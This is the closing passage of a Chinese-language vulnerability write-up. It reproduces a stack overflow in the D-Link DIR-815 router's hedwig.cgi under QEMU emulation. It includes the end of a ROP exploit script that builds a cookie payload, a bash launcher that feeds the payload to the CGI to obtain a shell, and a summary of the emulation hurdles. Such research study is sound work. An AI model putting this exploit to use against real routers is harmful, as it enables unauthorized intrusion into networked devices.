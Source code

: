     padding += 'A' * 4                        # s7
    padding += 'A' * 4                        # fp
    padding += p32(base_addr + gadget1)       # ra
    padding += 'B' * 0x10
    padding += cmd
    f = open("context",'wb')
    f.write(padding)
    f.close()
    

运行exp生成context，将congtext上传，然后运行hedwig.cgi服务：

    #!/bin/bash
    export CONTENT_TYPE="application/x-www-form-urlencoded"
    export HTTP_COOKIE="uid=`cat context`"
    export CONTENT_LENGTH=$(echo -n "$HTTP_COOKIE" | wc -c)
    export REQUEST_METHOD="POST"
    export REQUEST_URI="/hedwig.cgi"
    echo "uid=4321"|./gdbserver.mipsle 192.168.100.254:8888 /htdocs/web/hedwig.cgi
    #echo "uid=4321"|/htdocs/web/hedwig.cgi
    

最后可以在宿主机可以得到一个qemu虚拟系统的shell：

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/3977BDA0-8B65-4B72-BD5B-C7CEE25D6A87_2/8pthGY559Na0ecSHuLSBVDyIpOgOPpvaNKLE6vxuNyQz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/A75F3892-CBEE-4495-AA27-477E80D9F931_2/5ey2Kmehlxxl5xfbgbLSxyFWLHbLysSlbqYw4w3OyVsz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/BCACFD7A-35C4-40C9-8B65-DDCEB42A7139_2/CzJaVx2TL5JYnyc5KFKKoc4jCDMNuGZIeNjCpRa5Nqgz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/FF00A8AB-9499-48D9-99B2-C791C56E760B_2/Hxg9GezfKl9EGH1JrErLTBmLtPjHAKKFaZXQGIao29Yz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/3EFD6989-CA16-4ADE-9A64-6293C59FE91A_2/F48gGCeEw5YTSqDBElBIE5WTytbSNY25Vk7tKyO95y0z/Image.png)

总结
==

复现过程主要难点在于环境搭建、仿真模拟，由于没有硬件设备，通过仿真只能模拟出部分功能。我试了很多方式，比如像FirmAE和Firmadyne，或者是自己构建的docker镜像、openwrt虚拟机，都不是很好用，中途遇到无数多的问题不得不放弃这些方法，最后选择这种手动模拟的方式，这种方式应该适用于多数要求不是很高的模拟场景。

References
==========

[IOT设备漏洞挖掘从入门到入门（一）- DVRF系列题目分析 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/184718)

[IOT设备漏洞挖掘从入门到入门（二）- DLink Dir 815漏洞分析及三种方式模拟复现 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/187443)

[IOTsec-Zone 物联网安全社区](https://iotsec-zone.com/article?id=58)

[MIPS 汇编指令学习 - CobrAMG - 博客园](https://www.cnblogs.com/CoBrAMG/p/9237609.html)